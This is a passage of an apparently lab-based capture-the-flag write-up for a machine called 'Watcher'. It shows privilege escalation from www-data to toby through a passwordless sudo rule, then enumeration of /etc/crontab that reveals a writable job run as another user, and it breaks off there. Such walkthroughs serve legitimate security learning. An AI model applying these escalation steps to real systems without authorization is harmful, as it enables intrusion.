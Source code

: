 # **Privilege Escalation**

## Flag 4

It's now to upgrade from www-data to another user, let's check what we can do with our current user:

```terminal
www-data@watcher:/$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

Apparently, we can execute any command as `toby`. We can use that to change our user to toby:

```terminal
www-data@watcher:/$ sudo -u toby /bin/bash
toby@watcher:/$
toby@watcher:/$ ls
flag_4.txt  jobs  note.txt
toby@watcher:~$ cat note.txt  
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.
```

With that, we can now `cat` the fourth flag.

## Flag 5

We have a note from someone that says there is a cronjob set up, let's see what's there:

```terminal
toby@watcher:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```

